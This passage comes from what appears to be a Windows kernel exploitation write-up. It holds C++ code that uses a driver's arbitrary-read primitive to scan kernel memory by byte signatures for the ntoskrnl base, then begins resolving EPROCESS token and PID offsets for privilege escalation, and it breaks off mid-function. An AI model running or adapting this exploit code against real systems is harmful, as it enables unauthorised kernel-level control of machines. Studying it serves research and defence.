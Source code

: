 ```c++
ULONGLONG walk_nt(HANDLE device_handle, ULONGLONG psysquota)
{
    // To Find nt!HviGetHardwareFeatures
    DWORD one = 0x10;
    while (true) {
        ULONGLONG first = arbitrary_read(device_handle, psysquota - one);
        // Function header QWORD
        if (first == (ULONGLONG)0x83485710245C8948) {
            ULONGLONG offset1 = arbitrary_read(device_handle, (psysquota - (one-0x28)));
            ULONGLONG offset2 = arbitrary_read(device_handle, (psysquota - (one-0x30)));
            ULONGLONG offset3 = arbitrary_read(device_handle, (psysquota - (one-0x38)));
            ULONGLONG offset4 = arbitrary_read(device_handle, (psysquota - (one-0x40)));
            ULONGLONG offset5 = arbitrary_read(device_handle, (psysquota - (one-0x48)));
            ULONGLONG offset6 = arbitrary_read(device_handle, (psysquota - (one-0x50)));
            // The most shameful block of nested if statements I've produced to date
            if ((offset1 == (ULONGLONG)0x7220244439400000 && offset2 == (ULONGLONG)0x890789A20FC93311) || 
                    (offset2 == (ULONGLONG)0x7220244439400000 && offset3 == (ULONGLONG)0x890789A20FC93311)) {
                if ((offset2 == (ULONGLONG)0x890789A20FC93311 && offset3 == (ULONGLONG)0x0C5789084F89045F) || 
                        (offset3 == (ULONGLONG)0x890789A20FC93311 && offset4 == (ULONGLONG)0x0C5789084F89045F)) {
                    if ((offset3 == (ULONGLONG)0x0C5789084F89045F && offset4 == (ULONGLONG)0x48078948C03309EB) || 
                            (offset4 == (ULONGLONG)0x0C5789084F89045F && offset5 == (ULONGLONG)0x48078948C03309EB)) {
                        if ((offset4 == (ULONGLONG)0x48078948C03309EB && offset5 == (ULONGLONG)0x30244C8B48084789) || 
                            ((offset5 == (ULONGLONG)0x48078948C03309EB && offset6 == (ULONGLONG)0x30244C8B48084789)))
                        return (psysquota - one);
                    }
                }
            }
        }
        one += 0x10;
    }
    return 0x0;
}
```

There are of course many limitations and caveats that come with this approach; random version related differences may change the above signatures causing the code to read further back than the `ntoskrnl` base and into uninitialized memory - causing a BSOD. While my testing seemed to indicate a good degree of version independency, your mileage may vary.

Speaking of version independency, may as well commit to the intent. I created the below functions to be run at the start of main method execution to correct for the `EPROCESS` offsets differing between Windows versions.

```c++
DWORD TOKEN_OFFSET;
DWORD PID_OFFSET;
DWORD APL_OFFSET;

typedef LONG(NTAPI* RtlGetVersionPtr)(PRTL_OSVERSIONINFOW lpVersionInformation);

std::string GetWindowsVersion() {
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    if (hNtdll == nullptr) {
        return "Unknown";
    }

```